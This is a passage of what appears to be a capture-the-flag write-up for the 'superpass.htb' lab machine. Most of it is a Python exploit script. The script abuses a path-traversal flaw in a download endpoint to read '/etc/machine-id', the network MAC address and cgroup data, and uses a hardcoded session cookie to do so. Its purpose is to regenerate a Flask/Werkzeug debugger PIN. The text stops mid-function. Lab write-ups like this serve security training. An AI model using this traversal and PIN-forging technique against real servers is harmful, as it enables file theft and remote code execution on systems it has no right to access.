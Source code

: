 I tried running it locally to see if any values would be different. After way too long, I found that I needed to use 'wsgi_app' instead of 'Flask' for the application name.

I used the file extracted from the server to create a script that would read the needed data and generate a PIN.

```python
#!/usr/bin/env python3

import hashlib
import typing as t
from itertools import chain
import requests

session = ".eJydjsFqwzAQRH9F7NkUSyvvav0VvZcQ1tIqNrhNsJxTyL9X0D_oaRjeDDMvuNZd22oN5q8XuLMLfFtrejMY4HM3beb2-81tP-68O825Q3euW3OPnvmAy3v4Z-8y9PHD2grzeTytu63ADIxoiKOyZbFCpjFERBm9VEaKXGMNAb0UFem0cqLkA4esgXTRYkyZVRRFpfDIJLFQTZXGIHmMMQXziZepSIqESSfCyn4aA5VFslC_f302O_7eeA_vXysbV8k.ZDwLUw.zWd1Hqq-2N6BReHdfEWT5Y7_8zM"

def request_file(file_name):
    proxy_servers = {
        'http': 'http://localhost:8080',
    }

    s = requests.Session()
    s.proxies = proxy_servers

    url = f'http://superpass.htb/download?fn=..{file_name}'
    cookie = {"session": session}
    response = s.get(url, cookies=cookie)

    if 200 == response.status_code:
        return response.text.strip()

    return ''

def get_node():
    file = '/sys/class/net/eth0/address'
    address = request_file(file)
    address = address.replace(':', '')
    return int(address, 16)

def get_machine_id() -> t.Optional[t.Union[str, bytes]]:
    def _generate() -> t.Optional[t.Union[str, bytes]]:
        linux = b""

        # machine-id is stable across boots, boot_id is not.
        for filename in "/etc/machine-id", "/proc/sys/kernel/random/boot_id":
            try:
                value = request_file(filename).encode()
            except OSError:
                continue

            if value:
                linux += value
                break

        # Containers share the same machine id, add some cgroup
        # information. This is used outside containers too but should be
        # relatively stable across boots.
        try:
            linux += request_file("/proc/self/cgroup").encode().rpartition(b"/")[2]
        except OSError:
            pass

```